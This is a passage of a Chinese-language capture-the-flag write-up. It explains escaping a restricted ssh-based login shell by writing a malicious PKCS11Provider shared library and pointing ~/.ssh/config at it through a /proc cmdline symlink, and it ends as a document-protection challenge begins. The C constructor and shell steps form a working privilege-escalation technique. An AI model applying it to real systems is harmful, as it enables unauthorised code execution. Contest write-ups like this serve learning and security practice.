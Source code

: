网上有个类似的问题：https://security.stackexchange.com/questions/191939/bypassing-the-command-script-specified-in-etc-passwd

从这个问题的回答中，可以发现他们的思路还是利用这个shell本身的问题，比如read命令的问题之类的。对于我们的情况，就是要利用一下它里面跑的ssh nobody这个命令，看能不能找出它的一个副作用之类的。

这里就要使用到我们对ssh的了解了，在`~/.ssh/config`下面写入`Host localhost`配置文件，就可以控制很多和ssh客户端相关的行为。比如可以控制客户端ssh出去的时候是否要转发X server，是否转发key agent等等。他还包含一些可以在本地执行命令的配置，我知道的有`LocalCommand`，还有`ProxyCommand`。结果试了都发现不行，结合代码也发现全调用shell了，尴尬。

后来想了一个办法，尝试用X11相关的特性，如`XAuthLocation`来执行命令，这个虽然不会调用shell，但只有在本地有DISPLAY环境变量的时候才有效，这就需要我们在`ssh admin2`的时候完成至少一次成功的X转发，可惜就差这一步，因为[docker环境的bug](https://unix.stackexchange.com/questions/111519/ssh-returns-message-x11-forwarding-request-failed-on-channel-1)（启用了ipv6但并没有分配ipv6地址），其中的sshd无法实现X转发，就卡在这里了。

最后我的解决方法是用`PKCS11Provider`这个属性，它可以直接加载一个动态库到ssh客户端的进程里，这就舒服了。我们编译一个假的pkcs provider，设置它一加载就执行我们的命令：

```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) _my_init(void) {
	system("chmod 777 /flag2");
}
```

编译好，base64编码一下，传输到服务器上解码，然后：

```bash
chmod +x /tmp/fakepkcs.so

cat > /tmp/pycfg <<EOF
import os
os.execve("/usr/bin/su", ["""
Host localhost
  PKCS11Provider /tmp/fakepkcs.so
#"""], os.environ.copy())
EOF

python3 /tmp/pycfg &
ln -sf /proc/$!/cmdline ~/.ssh/config

ssh admin2@127.0.0.1
```

就可以拿到flag2了。



后半场给的提示说明，预期解仍然是xxxxCommand的选项，发现KnownHostsCommand并不会调用shell，我这个非预期解属实是绕大远路了。感想：大家还是要[好好读文档](https://man.openbsd.org/ssh_config)，不要像我一样。



## 企鹅文档

进到“访问企鹅文档”里，发现“此范围已被保护”。这题真的是腾讯给的嘛？我攻击我自己？这个如果打过去了岂不是说明腾讯文档自己的安全性有问题23333 打开F12，然后看了好久好久。保护范围好说，我们可以发现只需要屏蔽这个请求：
